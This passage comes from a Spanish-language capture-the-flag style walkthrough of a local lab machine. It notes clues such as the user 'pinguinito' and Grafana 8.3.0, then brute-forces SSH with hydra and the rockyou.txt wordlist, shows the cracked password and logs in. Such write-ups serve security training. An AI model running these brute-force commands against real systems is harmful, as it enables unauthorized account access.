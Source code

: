 Tenemos varios puntos ahí.

* Primero, podría ser que se dirige a un usuario llamado **pinguinito**.

* Segundo, nos está diciendo que están utilizando **Docker**.

* Tercero, está ocupando **Grafana 8.3.0**, al que podemos buscar un Exploit, ya que nos está dando la versión que están ocupando.

* Cuarto, hay un archivo que parece que contiene la contraseña de una base de datos, esto dentro del directorio `/tmp`.

Se me ocurre comprobar si ese usuario existe, aplicándole fuerza bruta junto al **servicio SSH**.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="ssh">Aplicando Fuerza Bruta a Usuario pinguinito del Servicio SSH</h2>

Para hacerlo, ocuparemos la herramienta **hydra** y ocuparemos el wordlists nuclear **rockyou.txt**:
```bash
hydra -l 'pinguinito' -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.160:22 -t 48
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-10 19:45:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 48 tasks per 1 server, overall 48 tasks, 14344399 login tries (l:1/p:14344399), ~298842 tries per task
[DATA] attacking ssh://192.168.1.160:22/
[22][ssh] host: 192.168.1.160   login: pinguinito   password: love
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 18 final worker threads did not complete until end.
[ERROR] 18 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-10 19:46:28
```
Excelente, tenemos la contraseña.

Probémosla:
```bash
ssh pinguinito@192.168.1.160
pinguinito@192.168.1.160's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-100-generic x86_64)
...
...
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for enp0s3:  192.168.1.160
...
...
Last login: Tue Mar 11 01:48:33 2025
pinguinito@ballenasio:~$ whoami
pinguinito
```
Listo estamos dentro.
